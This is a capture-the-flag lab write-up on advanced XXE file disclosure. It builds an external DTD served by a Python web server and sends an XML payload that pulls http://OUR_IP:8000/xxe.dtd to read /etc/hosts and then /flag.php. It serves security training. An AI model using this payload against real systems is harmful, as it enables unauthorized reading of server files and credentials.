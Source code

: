 # Advanced File Disclosure

#### Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').



**Step 1** - Get the XML data

* Fill the form click on **Send Message**.

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Capture the POST Request and send it with Repeater

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Like the last exercise, we can see the value of the tag `email`  being reflected on the Response. This time to extract the data, we'll wrap the content of the external file reference with a `CDATA` .

Since XML prevents joining internal and external entities, we have to come around with a solution. To bypass this limitation we can use `XML Parameter Entities`. This is a special type of entity that starts with `%` character and con only be used with DTD.

To do that lets create a file in our working environment call it **xxe.dtd**. File content:

```bash
<!ENTITY joined "%begin;%file;%end;">
```

Then in the same directory we start a python server:

```bash
python3 -m http.server 8000
```

Lets add our XML code and try to read a common file like the **etc/hosts**:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> 
  <!ENTITY % file SYSTEM "file:///etc/hosts"> 
  <!ENTITY % end "]]>"> 
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> 
  %xxe;
]>
```

Make sure to add your machine IP, and add the **\&joined,** reference to the email tags.

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

As we can see, we retrieve the content of the **/etc/hosts** and we even got the logs on the attack machine.

Now, if you struggle to find the flag.php file, maybe it's because you were looking at the `var/www/html` directory. But the file is actually located at the root, so we have to reference it like this `file:///flag.php`

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

And if we send the POST Request we are able to read the **flag.php** file and retrieve the flag!

